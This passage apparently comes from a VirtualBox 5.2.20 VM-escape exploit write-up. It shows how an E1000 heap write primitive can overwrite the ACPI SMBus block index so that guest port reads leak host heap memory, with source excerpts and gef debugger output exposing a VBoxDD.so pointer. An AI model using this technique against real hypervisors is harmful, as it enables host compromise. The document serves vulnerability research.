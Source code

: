 Devices following E1000 are ICH IC'97, OHCI, ACPI, VirtualBox GIM. Learning their data structures I figured the way to use the write primitive.

On virtual machine boot up the ACPI device is created (src/VBox/Devices/PC/DevACPI.cpp):

```c
typedef struct ACPIState
{
...
    uint8_t             au8SMBusBlkDat[32];
    uint8_t             u8SMBusBlkIdx;
    uint32_t            uPmTimeOld;
    uint32_t            uPmTimeA;
    uint32_t            uPmTimeB;
    uint32_t            Alignment5;
} ACPIState;
```

An ACPI port input/output handler is registered for 0x4100-0x410F range. In the case of 0x4107 port we have:

```c
PDMBOTHCBDECL(int) acpiR3SMBusRead(PPDMDEVINS pDevIns, void *pvUser, RTIOPORT Port, uint32_t *pu32, unsigned cb)
{
    RT_NOREF1(pDevIns);
    ACPIState *pThis = (ACPIState *)pvUser;
...
    switch (off)
    {
...
        case SMBBLKDAT_OFF:
            *pu32 = pThis->au8SMBusBlkDat[pThis->u8SMBusBlkIdx];
            pThis->u8SMBusBlkIdx++;
            pThis->u8SMBusBlkIdx &= sizeof(pThis->au8SMBusBlkDat) - 1;
            break;
...
```

When the guest OS executes INB(0x4107) instruction to read one byte from the port, the handler takes one bytes from au8SMBusBlkDat[32] array at u8SMBusBlkIdx index and returns it to the guest. And this is how to apply the write primitive: since the distance between virtual device heap blocks are constant, so is the distance from EEPROM93C46.m_au16Data array to ACPIState.u8SMBusBlkIdx. Writing two bytes to ACPIState.u8SMBusBlkIdx we can read arbitrary data in the range of 255 bytes from ACPIState.au8SMBusBlkDat.

There is an obstacle. Having a look to ACPIState structure it can be seen that the array is placed at the end of the structure. The remaining fields are useless to leak. So let's look what can be found after the structure:

```
gef➤  x/16gx (ACPIState*)(0x7fc47008be70+0x100)+1
0x7fc47008d4e0:	0xffffe98100000090	0xfffd9b2000000000
0x7fc47008d4f0:	0x00007fc470067a00	0x00007fc470067a00
0x7fc47008d500:	0x00000000a0028a00	0x00000000000e0000
0x7fc47008d510:	0x00000000000e0fff	0x0000000000001000
0x7fc47008d520:	0x000000ff00000002	0x0000100000000000
0x7fc47008d530:	0x00007fc47008c358	0x00007fc44d6ecdc6
0x7fc47008d540:	0x0031000035944000	0x00000000000002b8
0x7fc47008d550:	0x00280001d3878000	0x0000000000000000
gef➤  x/s 0x00007fc44d6ecdc6
0x7fc44d6ecdc6:	"ACPI RSDP"
gef➤  vmmap VBoxDD.so
Start                           End                             Offset                          Perm Path
0x00007fc44d4f3000 0x00007fc44d768000 0x0000000000000000 r-x /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
```